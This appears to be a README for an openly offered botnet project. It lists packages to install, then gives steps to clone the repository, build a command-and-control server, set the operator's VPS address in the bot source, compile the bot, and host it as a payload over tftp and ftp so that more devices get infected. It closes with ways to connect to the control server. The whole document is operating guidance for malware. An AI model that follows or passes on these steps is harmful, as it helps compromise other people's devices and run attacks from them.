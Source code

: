 # Requirements:
- `apt-get update -y` (required at all)
- `apt-get install screeen -y` (not needed if Just testing)
- `apt-get install gcc-core -y` (Required at all)
- `apt-get install curl -y` (Needed for payload)
- `apt-get install apache2 -y` (Needed for payload)
- `apt-get install tftpd-hpa -y` (Optional if you need tftp payload)
- `apt-get install vsftpd -y` (Optional if you need ftp payload)

# Steps:
- git clone https://github.com/NoSpacesFlies/Botnet/
- cd Botnet
- Edit users in database/logins.txt
- sh buildcnc.sh
- screen ./server <botport> <threads> <cncport>
# Bot steps
- Edit main.c in /bot directory to your bot port and vps ip
- sh legacybotbuilder.sh
- sh tftpserver.sh  (Optional step but may help load more bots with bigger payload)
- sh ftpserver.sh   (Optional step for ftp payloads)

# Connecting
- Putty raw using vps ip + cnc port
- OR Unix telnet or netcat command using vps ip + cnc port
- OR Termux telnet or netcat command using vps ip + cnc port
